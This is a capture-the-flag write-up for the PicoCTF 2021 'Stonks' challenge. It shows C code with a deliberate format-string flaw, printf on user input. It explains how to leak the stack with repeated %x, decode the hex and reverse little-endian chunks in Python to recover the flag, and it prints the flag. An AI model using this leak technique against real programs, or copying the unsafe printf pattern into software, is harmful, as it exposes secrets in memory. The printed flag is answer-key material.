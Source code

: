 # Stonks
This challenge was part of the PicoCTF 2021 and was part of the Binary Exploitation genre. It was very fun to solve.
Let's start with the examination.

## Examination
After reading a bit of the code we can detect a Format String vulnerability.
The interesting function in this program is $\textcolor{blue}{\text{buy\\_stonks}}$.



<pre><code>int buy_stonks(Portfolio *p) {
	if (!p) {
		return 1;
	}
    <b style="color:green;">char api_buf[FLAG_BUFFER];
	FILE *f = fopen("api","r");</b>
	if (!f) {
		printf("Flag file not found. Contact an admin.\n");
		exit(1);
	}
	<b style="color:green;">fgets(api_buf, FLAG_BUFFER, f);</b>

	int money = p->money;
	int shares = 0;
	Stonk *temp = NULL;
	printf("Using patented AI algorithms to buy stonks\n");
	while (money > 0) {
		shares = (rand() % money) + 1;
		temp = pick_symbol_with_AI(shares);
		temp->next = p->head;
		p->head = temp;
		money -= shares;
	}
	printf("Stonks chosen\n");

	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	<b style="color:green;">scanf("%300s", user_buf);</b>
	printf("Buying stonks with token:\n");
	<b style="color:green;">printf(user_buf);</b>

	// TODO: Actually use key to interact with API

	view_portfolio(p);

	return 0;
}</code></pre>

The fact that there is a variable called api_buf that stores the flag's contents and is on the stack, alerts us that it might be possible to use some kind of leaking technique, to get the actual flag.
As we can see from the picture above, the program reads the contents of the flag from a file called api. The program asks us to enter some input (maximum of 300 bytes) and then prints it using printf() function from libc. A clear Format-String Vulnerability.

We will enter lots of %xs to leak the flag value on the stack.


![Input example](./input_example.png)

Now, this might look like gibrish to us. But all of these values are hexadecimal values, and some of them incoorapte to ascii values. To convert these values to ascii values, we will use the following technique.
```sh
echo -n {your-hexadecimal-values} | perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
```
Source of this method [here](https://stackoverflow.com/questions/1604765/how-to-convert-hex-to-ascii-characters-in-the-linux-shell#7681385).

This is the output of the above command:
<pre><code>���H�?���������p��9     !c�<b style="color:green;">ocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6��}�</b>�*���T@~�~4Ο�
                                                                                �\���#�~%h������2D�����p��~ ��2x���P����~����2x�H�i!A`��2d��2x�H���?���3,��3$����2��ݯ���p��p}����3$��3,��2���p���
�M�_��P�0������b�H�Q��3$�H�0���`��3��)@�����></code></pre>

Now, the output still looks not so familiar to the human eye. This is because of two reasons:
1. The addresses of this binary are stored in little-endian (and we know that this is a 32-bit binary, by the length of the addresses).
2. We are leaking a lot of addresses from the stack. Lots of them don't have any connection to ascii values.

We will need to identify the exact values of the flag. We can do that by looking at the ascii table and determine what is the value of the letter 'o', which is the start of the little-endian flag that we are looking for. The ascii value is $\textcolor{blue}{\text{6f}}$. We can confidently delete all the values up until this value. Little-endian means that the addresses are reversed. Every 4 bytes. "pico" is the first 4 bytes of our flag and that is why the letter "o" will be the first letter of it in little-endian.
After we do this, we can copy the entire flag up until the character "}", and place it in a python program inside a variable. The following python code will help us in reversing the entire flag to be in big-endian and thus be readable for us:

```python
if __name__ == '__main__':
    message = 'ocip{FTC0l_I4_t5m_ll0m_y_y3nbc7ceac6��}�'
    new_message = ""
    count = 0
    part_message = ""
    for _ in message:
        part_message += _
        count += 1
        if count == 4:
            new_message += "".join((list(reversed(part_message))))
            count = 0
            part_message = ""
    print(new_message)
```

After this function, we may take the output and delete all the $\textcolor{blue}{\text{�}}$ characters.
The more elegant and maybe better way to do this operation would be to use RegEx.

**We have the flag!**
